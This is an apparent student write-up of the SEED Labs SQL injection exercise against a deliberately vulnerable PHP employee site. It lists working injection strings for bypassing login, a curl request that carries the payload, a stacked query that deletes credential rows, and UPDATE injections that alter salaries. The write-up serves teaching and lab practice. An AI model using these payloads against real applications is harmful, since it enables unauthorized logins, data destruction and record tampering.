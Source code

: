 # SQL Injection 

## Summary 
* SQL injection attacks are due to invalidated user inputs. 
* The attackers inject inputs in the text box such that the SQL statement on the server side is reconstructed as per the attacker's needs. 
* The victims may not even know that their data is compromised. 

## Links 


## SeedLab Tasks:

#### A simple PHP application. 
* Link : https://gitlab.com/shivapbhusal/app_analysis/blob/master/security_examples/sql_injection.php

#### Seedlab tasks 
* Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_SQL_Injection/SQL_Injection.pdf

#### Task 1: Playing with the MySQL console 
```sql
mysql -u root -pseedubuntu
use Users; # name of the database 
show tables; # show all the tables in Users database 
```

#### Task 2.1 : SQL injection attack from webpage 
To simply login, attacker can type this in the Employee ID textbox 
```
a ' or 1 #

```

To login as admin, attacker can type this. We assume, attacker knows the name of admin. 
```
a ' or Name='Admin' #
```

#### Task 2.2. : From the command line 
```
curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=a+%27+or+Name%3D%27Admin%27+%23&Password=aass'
``` 

#### Task 2.3. : Append a new SQL statement 
Had some issues with this. Draft script. P.S : Attacker will also not know the table name. 
```
a ';delete from credential where Name='Abc'#
```

#### Task 3.1 : Updating the salary 
Employee can't edit their salary information. But they can do this with the help of SQL injection attack. Type this in any of the field 
```
aaaaaa',salary=100000#
```

#### Task 3.2 : Updating the salary of one specific person
Set the value of first field as 
```
aaaaaa',salary=1 where Name='Ryan'#
```

& set the values of every other fields as # so that every statements executed are commented out. 

## Preventive Measures: 
* Use prepared statements as explained in the SeedLab document. 